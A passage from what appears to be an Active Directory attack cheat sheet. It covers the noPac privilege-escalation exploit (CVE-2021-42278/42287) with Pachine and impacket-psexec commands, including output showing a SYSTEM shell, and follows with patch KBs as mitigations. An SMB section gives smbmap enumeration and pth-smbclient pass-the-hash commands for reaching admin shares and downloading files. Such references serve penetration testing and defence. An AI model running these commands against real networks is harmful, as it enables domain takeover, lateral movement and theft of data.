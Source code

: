     [*] Saving ticket in gaylene.dreddy.ccache                                        
    [!] Launching semi-interactive shell - Careful what you execute                   
    C:\Windows\system32>whoami                                                        
    nt authority\system 
    ```
* [ly4k/Pachine](https://github.com/ly4k/Pachine)
    ```powershell
    usage: pachine.py [-h] [-scan] [-spn SPN] [-impersonate IMPERSONATE] [-domain-netbios NETBIOSNAME] [-computer-name NEW-COMPUTER-NAME$] [-computer-pass password] [-debug] [-method {SAMR,LDAPS}] [-port {139,445,636}] [-baseDN DC=test,DC=local]
                  [-computer-group CN=Computers,DC=test,DC=local] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key] -dc-host hostname [-dc-ip ip]
                  [domain/]username[:password]
    $ python3 pachine.py -dc-host dc.domain.local -scan 'domain.local/john:Passw0rd!'
    $ python3 pachine.py -dc-host dc.domain.local -spn cifs/dc.domain.local -impersonate administrator 'domain.local/john:Passw0rd!'
    $ export KRB5CCNAME=$PWD/administrator@domain.local.ccache
    $ impacket-psexec -k -no-pass 'domain.local/administrator@dc.domain.local'
    ```

**Mitigations**:
* [KB5007247 - Windows Server 2012 R2](https://support.microsoft.com/en-us/topic/november-9-2021-kb5007247-monthly-rollup-2c3b6017-82f4-4102-b1e2-36f366bf3520)
* [KB5008601 - Windows Server 2016](https://support.microsoft.com/en-us/topic/november-14-2021-kb5008601-os-build-14393-4771-out-of-band-c8cd33ce-3d40-4853-bee4-a7cc943582b9)
* [KB5008602 - Windows Server 2019](https://support.microsoft.com/en-us/topic/november-14-2021-kb5008602-os-build-17763-2305-out-of-band-8583a8a3-ebed-4829-b285-356fb5aaacd7)
* [KB5007205 - Windows Server 2022](https://support.microsoft.com/en-us/topic/november-9-2021-kb5007205-os-build-20348-350-af102e6f-cc7c-4cd4-8dc2-8b08d73d2b31)
* [KB5008102](https://support.microsoft.com/en-us/topic/kb5008102-active-directory-security-accounts-manager-hardening-changes-cve-2021-42278-5975b463-4c95-45e1-831a-d120004e258e)
* [KB5008380](https://support.microsoft.com/en-us/topic/kb5008380-authentication-updates-cve-2021-42287-9dafac11-e0d0-4cb8-959a-143bd0201041)


## Open Shares

> Some shares can be accessible without authentication, explore them to find some juicy files

* [ShawnDEvans/smbmap - a handy SMB enumeration tool](https://github.com/ShawnDEvans/smbmap)
  ```powershell
  smbmap -H 10.10.10.10                # null session
  smbmap -H 10.10.10.10 -R             # recursive listing
  smbmap -H 10.10.10.10 -u invaliduser # guest smb session
  smbmap -H 10.10.10.10 -d "DOMAIN.LOCAL" -u "USERNAME" -p "Password123*"
  ```

* [byt3bl33d3r/pth-smbclient from path-toolkit](https://github.com/byt3bl33d3r/pth-toolkit)
  ```powershell
  pth-smbclient -U "AD/ADMINISTRATOR%aad3b435b51404eeaad3b435b51404ee:2[...]A" //192.168.10.100/Share
  pth-smbclient -U "AD/ADMINISTRATOR%aad3b435b51404eeaad3b435b51404ee:2[...]A" //192.168.10.100/C$
  ls  # list files
  cd  # move inside a folder
  get # download files
  put # replace a file
  ```
